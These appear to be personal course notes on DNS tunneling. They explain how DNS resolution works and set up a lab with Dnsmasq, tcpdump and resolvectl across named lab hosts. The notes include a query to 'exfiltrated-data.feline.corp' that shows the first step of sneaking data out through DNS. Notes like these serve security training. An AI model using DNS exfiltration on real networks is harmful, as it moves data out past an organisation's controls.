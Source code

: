 # DNS Tunneling

- DNS
	- Asks DNS recursive resolver server for the DNS address record (A record) of the domain
		- **A** record
			- DNS data type -> contains IPv4 address
		- Resolver holds a list of *root name servers* (There are 13 around the world)
		- Sends DNS query to a root name server
			- (root name server will respond with the address of a DNS name server that's responsible for the **.com** *top-level domain (TLD).
				- TLD name server
		- TLD name server will respond with the *authoritative name server*
		- Resolver then asks the **example.com** authoritative name server for the IPv4 address
		- The authoritative name server replies with the A record for that.
		- Resolver returns response to us
			- Done in UDP
				- UDP/53 = standard
		- Summary:
			- domain query -> DNS resolver (by ISP or google.com) -> Root name server (**TLD name server IP for .com**) -> .com TLD name server (**Authoritative name server IP**)-> Authoritative name server (**IPv4**) -> back to us
	- `with MULTISERVER03 as the DNS server, a request from PGDATABASE01 for the IP address of **www.example.com** would follow the flow shown below.`

![[Pasted image 20240125124147.png]]

	- FELINEAUTHORITY is registered within this network as the authoritative name server for the feline.corp zone.8 We will use it to observe how DNS packets reach an authoritative name server. In particular, we will watch DNS packets being exchanged between PGDATABASE01 and FELINEAUTHORITY.
	- While PGDATABASE01 cannot connect directly to FELINEAUTHORITY, it can connect to MULTISERVER03. MULTISERVER03 is also configured as the DNS resolver server for PGDATABASE01.

![[Pasted image 20240128193039.png]]

- Simulating a DNS setup
	- *DNsmasq*
		- Example:
			- cd ~/dns_tunneling
			- dnsmasq.conf
				- ignores **/etc/resolv.conf** and **/etc/hosts**
				- defines the *auth-zone* and *auth-server* variable
				- Tells Dnsmasq to act as the authoritative name server for the **feline.corp** zone
			- ```sudo dnsmasq -C dnsmasq.conf -d```
				- -C = config file
				- -d = "no daemon" -> run in foreground
			- Set up **tcpdump** to listen on the **ens192** interface for DNS packets on UDP/53, using the capture filter **udp port 53**.
				- ```sudo tcpdump -i ens192 udp port 53```
			- Now that **tcpdump** is listening and **Dnsmasq** is running on FELINEAUTHORITY, move to shell on PGDATABASE01.
			- confirm PGDATABASE01's DNS settings
				- ```resolvectl status```
					- DNS resolution handled by systemd-resolved
			- test DNS
				- ```nslookup exfiltrated-data.feline.corp```
			- [However, it may cache results. If we receive outdated DNS responses, we should try flushing the local DNS cache with **resolvectl flush-caches**. We can also query the DNS server directly by appending the serve address to the nslookup command. For example: **nslookup exfiltrated-data.feline.corp 192.168.50.64**]
			- The tcpdump program on FELINEAUTHORITY captured DNS packets from MULTISERVER03.
